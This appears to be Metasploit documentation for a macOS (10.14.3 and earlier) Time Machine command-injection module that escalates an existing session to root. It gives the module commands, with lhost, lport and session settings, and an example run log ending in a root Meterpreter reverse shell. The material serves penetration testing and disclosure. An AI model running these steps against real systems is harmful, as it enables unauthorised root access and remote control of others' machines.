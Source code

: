 ## Vulnerable Application
This vulnerability works against OSX <= 10.14.3 (Mojave). It has
been tested against Mojave (10.14) and High Sierra (10.13),
however it may work on older versions.


## Verification Steps
1. Get a session on a vulnerable system
2. `use exploit/osx/local/timemachine_cmd_injection`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios
### Example Run
```

msf5 exploit(multi/handler) > use exploit/osx/local/timemachine_cmd_injection
msf5 exploit(osx/local/timemachine_cmd_injection) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:5555
[*] Uploading file: '/tmp/qhjlknnmf'
[*] Executing exploit '/tmp/qhjlknnmf'
[*] Exploit result:
2019-04-18 16:18:29.190 qhjlknnmf[51122:107119] creating dmg image
2019-04-18 16:18:33.300 qhjlknnmf[51122:107119] mounting malformed disk
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] sending XPC msg
2019-04-18 16:18:33.564 qhjlknnmf[51122:107119] now wait a few minutes for the root command to run
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (808504 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:5555 -> 192.168.0.2:34270) at 2019-04-18 16:20:02 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
